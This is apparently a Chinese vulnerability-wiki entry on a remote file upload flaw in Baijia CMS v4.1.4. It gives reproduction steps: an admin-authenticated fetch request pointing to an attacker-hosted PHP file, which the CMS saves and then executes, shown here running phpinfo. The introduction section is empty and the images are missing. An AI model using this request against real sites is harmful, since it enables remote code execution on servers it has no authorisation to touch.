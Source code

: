 百家cms v4.1.4 远程文件上传漏洞
===============================

一、漏洞简介
------------

二、漏洞影响
------------

百家cms v4.1.4

三、复现过程
------------

    # 需要后台权限
    http://www.0-sec.org/index.php?mod=web&do=file&m=public&op=fetch&url=http://xx.xx.xx.xx/test/test.php

远程服务器起一个/test/test.php，内容为\*\*\<?php echo \"\<?php
phpinfo();\";\*\*

![](/Users/aresx/Documents/VulWiki/.resource/百家cmsv4.1.4远程文件上传漏洞/media/rId24.png)

访问payload，得到路径

![](/Users/aresx/Documents/VulWiki/.resource/百家cmsv4.1.4远程文件上传漏洞/media/rId25.png)

访问路径，执行代码

![](/Users/aresx/Documents/VulWiki/.resource/百家cmsv4.1.4远程文件上传漏洞/media/rId26.png)

查看本地文件

![](/Users/aresx/Documents/VulWiki/.resource/百家cmsv4.1.4远程文件上传漏洞/media/rId27.png)

参考链接
--------

> https://xz.aliyun.com/t/7542
